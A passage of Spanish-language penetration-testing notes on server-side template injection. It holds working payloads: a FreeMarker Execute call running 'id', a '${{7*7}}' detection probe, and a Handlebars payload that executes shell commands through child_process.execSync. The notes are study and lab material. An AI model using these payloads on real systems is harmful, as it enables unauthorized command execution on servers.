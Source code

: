 ```bash
${"freemarker.template.utility.Execute"?new()("id")}
```

![[Pasted image 20230211163002.png]]

### SSTI HANDLEBARS

Encontramos un parametro controlable por el usuario y que se refleja en la pagina:

![[Pasted image 20230211164849.png]]

vamos a intentar colocar varios payloads PoC de SSTI para encontrar opciones, el siguiente payload nos mostro un error:

```bash
${{7*7}}
```

![[Pasted image 20230211165123.png]]

el motor utilizado es **handlebars**, podemos ejecutar comandos con el siguiente payload:

```javascript
//urlencoded
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![[Pasted image 20230211170334.png]]

### SSTI DJANGO

Una pagina nos permite editar un template usando la sintxis de su plantilla:

![[Pasted image 20230211172025.png]]
